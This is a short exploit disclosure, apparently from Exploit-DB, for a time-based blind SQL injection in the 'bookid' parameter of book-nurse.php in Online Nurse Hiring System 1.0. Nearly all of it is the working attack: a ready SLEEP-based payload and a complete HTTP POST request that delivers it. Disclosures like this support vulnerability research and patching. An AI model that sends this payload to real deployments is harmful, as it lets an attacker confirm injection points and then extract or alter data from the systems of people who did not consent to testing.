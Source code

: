 # Online Nurse Hiring System 1.0 - 'bookid' Time-Based SQL Injection
- Vendor Homepage: https://phpgurukul.com/online-nurse-hiring-system-using-php-and-mysql
- Software Link: https://phpgurukul.com/?sdm_process_download=1&download_id=17826
- Version: 1.0
- Tested On: Kali Linux 6.1.27-1kali1 (2023-05-12) x86_64 + XAMPP 7.4.30
- https://www.exploit-db.com/exploits/51791

## Description
On the book-nurse.php page, the bookid parameter is vulnerable to SQL Injection vulnerability.

## Proof of Concept
After sending the payload, the response time will increase to at least 5 seconds.
Payload: 1'+AND+(SELECT+2667+FROM+(SELECT(SLEEP(5)))RHGJ)+AND+'vljY'%3d'vljY

## HTTP Request
```
POST /onhs/book-nurse.php?bookid=1'+AND+(SELECT+2667+FROM+(SELECT(SLEEP(5)))RHGJ)+AND+'vljY'%3d'vljY HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 140
Cookie: PHPSESSID=0ab508c4aa5fdb6c55abb909e5cbce09

contactname=test&contphonenum=1111111&contemail=test%40test.com&fromdate=2023-10-11&todate=2023-10-18&timeduration=1&patientdesc=3&submit=
```

